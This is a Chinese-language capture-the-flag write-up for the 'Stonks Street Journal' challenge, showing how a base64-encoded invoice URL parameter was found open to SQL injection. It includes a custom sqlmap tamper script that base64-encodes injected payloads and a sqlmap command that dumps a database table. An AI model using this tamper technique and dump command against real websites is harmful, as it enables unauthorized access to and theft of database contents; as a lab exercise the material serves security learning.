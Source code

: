 ```yaml
---
title: [Cyber Security Rumble]Stonks Street Journal
categories:
- General
- External sources
feature_text: |
  Stonks Street Journal


---
```




Stonks Street Journal



<!-- more -->

### 2021.12.2 

### Stonks Street Journal

在网站成功注册后可以查看 `invoice`

查看时发现URL末尾有一串看起来像base64编码的字符串

``http://ssj.rumble.host/legacy_invoice_system/Umljay0yMDIxLTExLTI5`

解码后得到`USERNAME-YEAR-MONTH-DAY`

在username后加上`'`，发生SQL报错

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='jumaoo1'' AND signup_date='2021-11-27...
                                                             ^
```

输入的字符串似乎被拆分成了username和signup date然后被传递到SQL查询中，没有过滤

使用一个自定义SQLMap篡改脚本，利用脚本把payload附加到signup date后面，然后对字符串base64编码，在传递到自定义注入点`GET /legacy_invoice_system/*`

脚本：

```
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL   //记住就行（？）

def tamper(payload, **kwargs):    //kwargs就是字典中的key+value
    retVal = base64.b64encode(('jumaoo1-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

塞进SQLmap里执行：

`sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`

- -r：抓包
- --tamper：脚本
- --threads：多线程
- -T：表名

得到flag
